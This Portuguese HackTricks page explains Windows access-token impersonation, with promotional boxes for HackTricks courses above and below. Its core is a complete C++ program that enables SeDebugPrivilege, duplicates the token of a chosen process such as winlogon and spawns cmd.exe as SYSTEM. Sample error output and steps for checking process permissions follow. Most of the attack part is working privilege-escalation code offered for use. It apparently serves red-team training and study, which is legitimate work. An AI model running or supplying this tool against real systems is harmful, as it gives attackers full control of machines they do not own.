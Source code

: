 <details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>


## Código

O seguinte código de [aqui](https://medium.com/@seemant.bisht24/understanding-and-abusing-access-tokens-part-ii-b9069f432962). Ele permite **indicar um ID de Processo como argumento** e um CMD **executando como o usuário** do processo indicado será executado.\
Executando em um processo de Alta Integridade, você pode **indicar o PID de um processo executando como Sistema** (como winlogon, wininit) e executar um cmd.exe como sistema.
```cpp
impersonateuser.exe 1234
```
```cpp
{% code title="impersonateuser.cpp" %}
```
```cpp
#include <windows.h>
#include <iostream>
#include <Lmcons.h>
BOOL SetPrivilege(
HANDLE hToken,          // access token handle
LPCTSTR lpszPrivilege,  // name of privilege to enable/disable
BOOL bEnablePrivilege   // to enable or disable privilege
)
{
TOKEN_PRIVILEGES tp;
LUID luid;
if (!LookupPrivilegeValue(
NULL,            // lookup privilege on local system
lpszPrivilege,   // privilege to lookup
&luid))        // receives LUID of privilege
{
printf("[-] LookupPrivilegeValue error: %u\n", GetLastError());
return FALSE;
}
tp.PrivilegeCount = 1;
tp.Privileges[0].Luid = luid;
if (bEnablePrivilege)
tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
else
tp.Privileges[0].Attributes = 0;
// Enable the privilege or disable all privileges.
if (!AdjustTokenPrivileges(
hToken,
FALSE,
&tp,
sizeof(TOKEN_PRIVILEGES),
(PTOKEN_PRIVILEGES)NULL,
(PDWORD)NULL))
{
printf("[-] AdjustTokenPrivileges error: %u\n", GetLastError());
return FALSE;
}
if (GetLastError() == ERROR_NOT_ALL_ASSIGNED)
{
printf("[-] The token does not have the specified privilege. \n");
return FALSE;
}
return TRUE;
}
std::string get_username()
{
TCHAR username[UNLEN + 1];
DWORD username_len = UNLEN + 1;
GetUserName(username, &username_len);
std::wstring username_w(username);
std::string username_s(username_w.begin(), username_w.end());
return username_s;
}
int main(int argc, char** argv) {
// Print whoami to compare to thread later
printf("[+] Current user is: %s\n", (get_username()).c_str());
// Grab PID from command line argument
char* pid_c = argv[1];
DWORD PID_TO_IMPERSONATE = atoi(pid_c);
// Initialize variables and structures
HANDLE tokenHandle = NULL;
HANDLE duplicateTokenHandle = NULL;
STARTUPINFO startupInfo;
PROCESS_INFORMATION processInformation;
ZeroMemory(&startupInfo, sizeof(STARTUPINFO));
ZeroMemory(&processInformation, sizeof(PROCESS_INFORMATION));
startupInfo.cb = sizeof(STARTUPINFO);
// Add SE debug privilege
HANDLE currentTokenHandle = NULL;
BOOL getCurrentToken = OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &currentTokenHandle);
if (SetPrivilege(currentTokenHandle, L"SeDebugPrivilege", TRUE))
{
printf("[+] SeDebugPrivilege enabled!\n");
}
// Call OpenProcess(), print return code and error code
HANDLE processHandle = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, true, PID_TO_IMPERSONATE);
if (GetLastError() == NULL)
printf("[+] OpenProcess() success!\n");
else
{
printf("[-] OpenProcess() Return Code: %i\n", processHandle);
printf("[-] OpenProcess() Error: %i\n", GetLastError());
}
// Call OpenProcessToken(), print return code and error code
BOOL getToken = OpenProcessToken(processHandle, MAXIMUM_ALLOWED, &tokenHandle);
if (GetLastError() == NULL)
printf("[+] OpenProcessToken() success!\n");
else
{
printf("[-] OpenProcessToken() Return Code: %i\n", getToken);
printf("[-] OpenProcessToken() Error: %i\n", GetLastError());
}
// Impersonate user in a thread
BOOL impersonateUser = ImpersonateLoggedOnUser(tokenHandle);
if (GetLastError() == NULL)
{
printf("[+] ImpersonatedLoggedOnUser() success!\n");
printf("[+] Current user is: %s\n", (get_username()).c_str());
printf("[+] Reverting thread to original user context\n");
RevertToSelf();
}
else
{
printf("[-] ImpersonatedLoggedOnUser() Return Code: %i\n", getToken);
printf("[-] ImpersonatedLoggedOnUser() Error: %i\n", GetLastError());
}
// Call DuplicateTokenEx(), print return code and error code
BOOL duplicateToken = DuplicateTokenEx(tokenHandle, MAXIMUM_ALLOWED, NULL, SecurityImpersonation, TokenPrimary, &duplicateTokenHandle);
if (GetLastError() == NULL)
printf("[+] DuplicateTokenEx() success!\n");
else
{
printf("[-] DuplicateTokenEx() Return Code: %i\n", duplicateToken);
printf("[-] DupicateTokenEx() Error: %i\n", GetLastError());
}
// Call CreateProcessWithTokenW(), print return code and error code
BOOL createProcess = CreateProcessWithTokenW(duplicateTokenHandle, LOGON_WITH_PROFILE, L"C:\\Windows\\System32\\cmd.exe", NULL, 0, NULL, NULL, &startupInfo, &processInformation);
if (GetLastError() == NULL)
printf("[+] Process spawned!\n");
else
{
printf("[-] CreateProcessWithTokenW Return Code: %i\n", createProcess);
printf("[-] CreateProcessWithTokenW Error: %i\n", GetLastError());
}
return 0;
}
```
{% endcode %}

## Erro

Em algumas ocasiões, você pode tentar se passar pelo System e isso pode não funcionar, exibindo uma saída como a seguinte:
```cpp
[+] OpenProcess() success!
[+] OpenProcessToken() success!
[-] ImpersonatedLoggedOnUser() Return Code: 1
[-] ImpersonatedLoggedOnUser() Error: 5
[-] DuplicateTokenEx() Return Code: 0
[-] DupicateTokenEx() Error: 5
[-] CreateProcessWithTokenW Return Code: 0
[-] CreateProcessWithTokenW Error: 1326
```
Isso significa que mesmo executando em um nível de Integridade Alto **você não tem permissões suficientes**.\
Vamos verificar as permissões atuais do Administrador sobre os processos `svchost.exe` com o **explorador de processos** (ou você também pode usar o process hacker):

1. Selecione um processo de `svchost.exe`
2. Clique com o botão direito --> Propriedades
3. Na aba "Segurança", clique no botão "Permissões" no canto inferior direito
4. Clique em "Avançado"
5. Selecione "Administradores" e clique em "Editar"
6. Clique em "Mostrar permissões avançadas"

![](<../../.gitbook/assets/image (322).png>)

A imagem anterior contém todos os privilégios que "Administradores" têm sobre o processo selecionado (como você pode ver, no caso de `svchost.exe`, eles só têm privilégios de "Consulta")

Veja os privilégios que "Administradores" têm sobre `winlogon.exe`:

![](<../../.gitbook/assets/image (323).png>)

Dentro desse processo, "Administradores" podem "Ler Memória" e "Ler Permissões", o que provavelmente permite que os Administradores se passem pelo token usado por este processo.



<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
